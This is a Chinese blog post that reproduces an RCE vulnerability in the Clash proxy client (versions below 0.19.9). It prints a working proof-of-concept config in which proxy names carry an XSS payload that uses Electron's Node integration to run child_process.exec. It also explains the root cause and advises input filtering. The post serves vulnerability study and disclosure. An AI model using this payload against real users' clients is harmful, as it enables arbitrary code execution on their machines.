 ```yaml
---
uuid: cbd31cff-6d44-0f3e-82e7-0629628fa3ab
title: Clash漏洞
date: 2022-03-02 21:39:55
tags:
     - 漏洞复现
categories:
     - 漏洞复现
---
```


前段时间clash软件出现RCE漏洞，在这里将漏洞进行复现！

![image06d498f82885114b.png](https://z4a.net/images/2022/06/14/image06d498f82885114b.png)

<!--more-->

该漏洞影响0.19.9版本以下。

```
port: 7890
socks-port: 7891
allow-lan: true
mode: Rule
log-level: info
external-controller: :9090
proxies:
  - name: a<img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>
    type: socks5
    server: 127.0.0.1
    port: "17938"
    skip-cert-verify: true
  - name: abc
    type: socks5
    server: 127.0.0.1
    port: "8088"
    skip-cert-verify: true

proxy-groups:
  -
    name: <img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>
    type: select
    proxies:
    - a<img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>

```

将POC放入文件中如txt或者yaml然后import导入，此时再点击proxies即可触发poc弹出计算机

![image-20220302214318129](https://img-blog.csdnimg.cn/img_convert/8ff964228acdbe2f723da97472824b88.png)

## 原理

clash 使用了Electron框架，且nodeIntegration值为True，说明开启了Node.js扩展,于是我们可以调用node.js模块从XSS到RCE

只要不进行严格的过滤，就会造成rce

```
require(‘child_process’).exec('')
1
```

形如这样的漏洞已经出现很多如

- 蚁剑
- xmind 2020等等

所以还是谨慎开启nodeIntegration参数，如果开启一定要对用户可控输入点做好充分的过滤

- 如特殊字符实体编码等
